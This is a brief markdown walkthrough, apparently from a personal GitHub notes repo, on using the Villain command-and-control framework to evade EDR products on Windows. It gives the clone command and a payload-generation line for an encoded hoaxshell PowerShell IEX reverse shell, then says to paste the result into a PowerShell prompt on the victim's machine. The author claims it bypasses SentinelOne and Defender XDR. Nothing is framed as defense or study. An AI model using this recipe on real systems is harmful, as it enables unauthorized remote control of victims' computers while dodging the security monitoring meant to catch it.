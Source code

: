 ## Villian Walkthrough

Villian is a very capable (as of 5/16/24) C2 that can be used to bypass EDR on windows. I have actively tested this against S1 and Defender XDR (need to test) and it can successfully bypass both. The best way to use this is to run a powershell encoded payload and run it directly on the target system to force it to run in memory.

#### Download Villian
```
git clone https://github.com/t3l3machus/Villain.git
```

Listeners are already configured as soon as it starts. *If it hangs, just use ctrl + c*

#### Generate Payload

Validate the payload you want to use by moving to ./Villian/Core/payload_templates; I recommend using hoaxshell for windows at least.

```
generate payload=windows/hoaxshell/powershell_iex lhost=eth0 encode
```

#### Copy this into a powershell prompt on victim

#### ????

#### Success!
